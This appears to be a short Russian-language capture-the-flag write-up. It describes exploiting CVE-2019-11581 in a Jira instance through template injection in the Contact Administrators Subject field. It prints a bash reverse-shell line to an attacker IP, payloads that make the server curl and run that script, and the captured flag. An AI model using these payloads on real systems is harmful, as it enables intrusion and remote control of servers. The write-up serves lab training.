


# Jira

Находим через nmap на порту 8080 инстанс Jira

Гуглим, находим CVE-2019-11581, позволяющую получить RCE. Для её эксплуатации нужно в панели отправки сообщения администраторам, находящейся по адресу [http://10.10.1.169:8080/secure/ContactAdministrators!default.jspa](http://10.10.1.169:8080/secure/ContactAdministrators!default.jspa), вставить пейлоад, эксплуатирующий уязвимость в шаблонизации, в поле Subject.



Для прокидывания реверс шелла, написал скрипт, выполняющий подключение:
```
sh -i >& /dev/tcp/10.5.5.164/41101 0>&1
```

Запустил сервер, отдающий этот скрипт через `python3 -m http.server 41155`

Далее, загрузил на хост скрипт через следующий пейлоад:
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://10.5.5.164:41155/splo1.sh -o /tmp/splo.sh').waitFor()
```

И запустил его:
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('bash /tmp/splo.sh').waitFor()
```

Получил реверс-шелл:



**Флаг:** `nto{j1rn4y4_uy4zv1m057}`